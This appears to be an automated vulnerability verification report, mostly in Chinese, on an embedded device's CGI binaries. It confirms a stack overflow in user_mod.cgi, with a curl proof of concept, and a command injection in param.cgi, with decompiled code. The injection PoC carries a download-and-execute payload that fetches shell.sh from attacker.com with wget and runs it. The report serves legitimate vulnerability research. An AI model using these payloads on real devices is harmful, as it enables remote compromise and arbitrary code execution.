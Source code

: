 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了栈缓冲区溢出漏洞。反编译代码证实：1) 缓冲区声明为固定大小（name、newname、group 各 64 字节，password 为 256 字节）；2) 使用 strcpy 直接复制用户控制的 CGI 参数值（来自 piVar2[iVar3 + 0x81]），无长度验证；3) 输入可控，攻击者可通过 HTTP 请求提交任意长度的参数；4) 路径可达，strcpy 调用在参数处理循环中无条件执行（只要参数名匹配 'name'、'newname'、'password' 或 'group'），无需满足业务逻辑条件（如认证）。攻击者模型为未经身份验证的远程攻击者，因为 CGI 脚本通常暴露于网络接口，且以 root 权限运行，可能导致远程代码执行和权限提升。完整攻击链验证：污染输入（CGI 参数）→ 无验证数据流（strcpy）→ 栈溢出（覆盖返回地址）。PoC 步骤：构造 HTTP POST 请求到 '/web/cgi-bin/config/user_mod.cgi'，其中任一参数（如 'name'）值超过缓冲区大小（例如，64 字节的 'A' 字符串），可能覆盖返回地址并控制执行流。例如：curl -X POST -d 'name=<64+字节的负载>' http://target/web/cgi-bin/config/user_mod.cgi

## 验证指标

- **验证时长：** 154.15 秒
- **Token 使用量：** 199312

---

## 原始信息

- **文件/目录路径：** `web/cgi-bin/cgi/param.cgi`
- **位置：** `param.cgi:0x0040365c (fcn.0040365c) - PanTilt parameter handling`
- **描述：** A command injection vulnerability exists in the PanTilt configuration update functionality of param.cgi. When an authenticated admin user submits a request with action='update', group='PanTilt', and name='Position1' (or similar position names), the user-provided value is directly incorporated into a system command without proper sanitization. This allows an attacker to inject arbitrary commands by including shell metacharacters (e.g., semicolons or backticks) in the value parameter. The vulnerable code uses a sprintf-like function to format a command string and then executes it via system(), leading to remote command execution with the privileges of the CGI process.
- **代码片段：**
  ```
  // From fcn.0040365c decompilation
  iVar1 = (**(loc._gp + -0x7f68))(param_4, "Position1");
  if (iVar1 == 0) {
      (**(loc._gp + -0x7f78))(&uStack_21c, "/usr/sbin/ptctrl -setpreset0=%s 2>/dev/null 1>/dev/null", param_5);
      (**(loc._gp + -0x7ef4))(&uStack_21c);
  }
  ```
- **备注：** This vulnerability requires admin-level authentication, as the code checks *0x431d60 == 1 before processing. The attack chain is complete from input (CGI parameters) to dangerous operation (system call). No evidence of input sanitization was found. Additional positions (Position2 to Position8) are similarly vulnerable. Exploitation could lead to full device compromise.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了param.cgi中PanTilt参数处理的命令注入漏洞。反编译代码显示，当group='PanTilt'且name='Position1'（或Position2到Position8）时，用户提供的value参数（param_5）被直接拼接到命令字符串中（如'/usr/sbin/ptctrl -setpreset0=%s 2>/dev/null 1>/dev/null'），并通过系统调用执行。代码中无输入验证或转义，且执行路径受认证检查保护（*0x431d60 == 1），要求管理员权限。攻击者模型为认证管理员用户，可注入shell元字符（如分号、反引号）执行任意命令，导致远程命令执行和设备完全妥协。PoC：作为认证管理员，发送POST请求到param.cgi，参数为action='update', group='PanTilt', name='Position1', value='; malicious_command #'，其中malicious_command为任意命令（例如'wget http://attacker.com/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh'）。
